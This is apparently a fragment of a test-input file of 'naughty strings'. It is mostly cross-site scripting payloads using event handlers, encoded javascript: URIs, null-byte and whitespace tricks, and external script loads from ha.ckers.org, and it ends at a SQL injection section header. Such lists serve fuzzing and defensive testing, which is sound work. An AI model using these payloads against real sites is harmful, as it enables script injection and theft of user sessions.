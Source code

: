 <img src=x onerror=\x00"javascript:alert(1)">
<a href=java&#1&#2&#3&#4&#5&#6&#7&#8&#11&#12script:javascript:alert(1)>XXX</a>
<img src="x` `<script>javascript:alert(1)</script>"` `>
<img src onerror /" '"= alt=javascript:alert(1)//">
<title onpropertychange=javascript:alert(1)></title><title title=>
<a href=http://foo.bar/#x=`y></a><img alt="`><img src=x:x onerror=javascript:alert(1)></a>">


<script src="/\%(jscript)s"></script>
<script src="\\%(jscript)s"></script>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=# onmouseover="alert('xxs')">
<IMG SRC= onmouseover="alert('xxs')">
<IMG onmouseover="alert('xxs')">
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
<IMG SRC="jav   ascript:alert('XSS');">
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out
<IMG SRC=" &#14;  javascript:alert('XSS');">
<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<<SCRIPT>alert("XSS");//<</SCRIPT>
<SCRIPT SRC=http://ha.ckers.org/xss.js?< B >
<SCRIPT SRC=//ha.ckers.org/.j>
<IMG SRC="javascript:alert('XSS')"
<iframe src=http://ha.ckers.org/scriptlet.html <
\";alert('XSS');//
<u oncopy=alert()> Copy me</u>
<i onwheel=alert(1)> Scroll over me </i>
<plaintext>
http://a/%%30%30

#	SQL Injection
#
#	Strings which can cause a SQL injection if inputs are not sanitized
